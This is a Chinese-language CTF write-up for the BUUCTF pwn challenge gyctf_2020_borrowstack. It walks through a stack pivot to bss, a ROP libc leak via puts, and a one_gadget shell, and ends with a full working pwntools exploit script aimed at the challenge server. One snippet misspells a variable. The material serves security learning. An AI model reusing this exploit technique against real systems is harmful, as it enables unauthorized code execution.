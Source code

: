 ### One_gadget 注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67df8ad888c538a9b5c4b96a.png)

反编译只够溢出 0x10，第二个 read 放到了 bss 段

![](https://pic1.imgdb.cn/item/67df8b0588c538a9b5c4b9ce.png)

首先利用 pit 表中的 puts 函数泄露 libc，得先找 `pop rdi` 指令

![](https://pic1.imgdb.cn/item/67df8bcc88c538a9b5c4bc0b.png)

其次栈迁移需要 leave 指令

![](https://pic1.imgdb.cn/item/67df937888c538a9b5c4cc5d.png)

先构造 payload 迁移栈到 bss 段

```python
r.recvuntil('u want')

payload = b'a' * 0x60 + p64(bank_addr) + p64(leave)

r.send(payload)
```

第一次溢出

![](https://pic1.imgdb.cn/item/67df9ce788c538a9b5c4e3cb.png)

**需要注意不能将栈迁移到变量 bank 的开头，因为后面还需要调用 puts 等函数，往上可能会覆盖某些重要数据，因此迁移的地址应该尽量靠后**

bank 的地址距离 got 表很近，只隔着 0x30 的距离，而调用 puts 很吃栈空间，因此我们在做栈迁移的时候要把地址相对的抬高些

![](https://pic1.imgdb.cn/item/67dfa15888c538a9b5c4ef36.png)

再找找 ret 指令，相当于

```c
pop eip	# 给 eip 赋值
```

![](https://pic1.imgdb.cn/item/67df943488c538a9b5c4cdec.png)

之后再在 bss 段中构造泄露 libc 的 payload

**（只要 p64(ret) * num 中 28 >= num >= 20 即可）**

```
r.recvuntil('now!')

payload = p64(ret) * 21 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)

r.send(payload)
r.recvline()

puts_addr = u64(r.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))
```

之后就是 libc 基址了

```
libc = LibcSearcher('puts', pus_addr)
libc_base = pus_addr - libc.dump('puts')
```

但是这题不能 ROP，只能 one_gadget（可能是空间不够）

**注意：one_gadget 是需要连 ebp 一起覆盖的**

![](https://pic1.imgdb.cn/item/67dfa58288c538a9b5c4f9d4.png)

完整 payload

```python
from pwn import *
from LibcSearcher import *

r = remote('node5.buuoj.cn',26424)
#r = process('./gyctf_2020_borrowstack')

elf = ELF('./gyctf_2020_borrowstack')
bank_addr = 0x0601080
leave = 0x400699
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x400703
main = 0x0400626
ret = 0x4004c9

r.recvuntil('u want')

payload = b'a' * 0x60 + p64(bank_addr) + p64(leave)

r.send(payload)
r.recvuntil('now!')

payload = p64(ret) * 28 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)

r.send(payload)
r.recvline()

puts_addr = u64(r.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))

libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')

one_gadget = libc_base + 0x4526a

payload = b'a' * (0x60 + 8) + p64(one_gadget)

r.send(payload)
r.interactive()
```

